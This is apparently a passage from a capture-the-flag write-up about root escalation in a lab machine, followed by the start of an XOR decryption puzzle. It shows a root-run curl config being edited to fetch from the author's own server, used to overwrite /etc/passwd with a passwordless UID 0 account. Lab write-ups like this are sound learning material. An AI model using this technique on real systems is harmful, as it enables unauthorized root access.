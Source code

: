 I run `ps aux` and see `/home/F30s/health_check` is running. The other file is `site_check`. I see whats in both files:
```shell
cat health_check  
Health: 1337/100

cat site_check  
url = "http://127.0.0.1/health_check"
```
This is basically a curl config file which I can edit.

To test it I modified the `site_check` to :
```shell
url = "http://10.13.66.123:8000/text.txt"
output = "/tmp/text.txt"
```

I can see it works and saves the file as root:
```shell
python3 -m http.server  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...  
10.10.158.95 - - [28/Jul/2025 17:26:03] "GET /text.txt HTTP/1.1" 200 -

F30s@482cbf2305ae:/tmp$ ls -la
total 12  
drwxrwxrwt 1 root root 4096 Jul 28 21:26 .  
drwxr-xr-x 1 root root 4096 Jun 24  2023 ..  
-rw-r--r-- 1 root root    5 Jul 28 21:26 text.txt
```

Now I save `/etc/passwd` to my machine and add the line `root1::0:0:root1:/home/root1:/bin/bash`. I host another python server and modify `site_check` to contain:
```shell
url = "http://10.13.66.123:8000/passwd"
output = "/etc/passwd"
```
After it downloads I run `su root1` and become root! 

I get to `/root` and see this:
```shell
root@482cbf2305ae:/root# cat flag2.txt  
b'ey}BQB_^[\\ZEnw\x01uWoY~aF\x0fiRdbum\x04BUn\x06[\x02CHonZ\x03~or\x03UT\x00_\x03]mD\x00W\x02gpScL'  
root@482cbf2305ae:/root# cat secret.txt  
b'C^_M@__DC\\7,'
```
Looks encrypted. `secret.txt` seems to be the key. I look around for more useful files. In `/` I find `secret-tip.txt`:
```shell
A wise *gpt* once said ...  
In the depths of a hidden vault, the mastermind discovered that vital ▒▒▒▒▒ of their secret ▒▒▒▒▒▒ had vanished without a trace. They knew their ▒▒▒▒▒▒▒ was now vulnerable to  
disruption, setting in motion a desperate race against time to recover the missing ▒▒▒▒▒▒ before their ▒▒▒▒▒▒▒ unraveled before their eyes.  
So, I was missing 2 .. hmm .. what were they called? ... I actually forgot, anyways I need to remember them, they're important. The past/back/before/not after actually matters  
, follow it!  
Don't forget it's always about root!
```
At this point I took a break. What I need to do is create a wordlist from `secret-tip.txt` and use them as keys to XOR for the last flag. I took the file and told chatGPT to put each word on a new line and remove all special characters and whitespace.
